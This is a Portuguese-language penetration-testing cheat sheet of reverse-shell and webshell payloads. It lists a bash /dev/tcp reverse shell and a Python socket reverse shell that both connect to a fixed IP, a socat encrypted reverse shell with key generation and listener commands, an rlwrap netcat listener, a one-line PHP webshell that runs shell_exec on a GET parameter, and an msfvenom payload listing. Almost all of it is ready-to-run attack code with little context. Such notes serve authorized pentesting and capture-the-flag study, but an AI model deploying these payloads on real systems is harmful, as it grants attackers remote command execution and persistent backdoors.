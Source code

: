 - **Reverse Shells**: `https://www.revshells.com/?source=post_page-----ae216e7a836f---------------------------------------`
# 🖥 Shells Reversas

## 🖥 Bash
```bash
cat << 'EOF' > test
#!/bin/bash
bash -i >& /dev/tcp/10.21.107.237/80 0>&1
EOF
```

## 🐍 Python
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.21.107.237",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## 🔐 Shell reversa criptografada com SOCAT
### 🔹 Gerar chaves
```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
cat shell.key shell.crt > shell.pem
```

### 🔹 Listener criptografado
```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

### 🔹 Reverse shell no alvo
```bash
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

---

# 🔥 Melhorando Shells
## 🪟Windows
```bash
apt install rlwrap
rlwrap nc -lvnp <port>
```

---



## 📌Exemplo de Webshell em PHP
```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

## 📌Metasploit Payloads
```bash
msfvenom -l payloads | grep "windows"
https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1
```
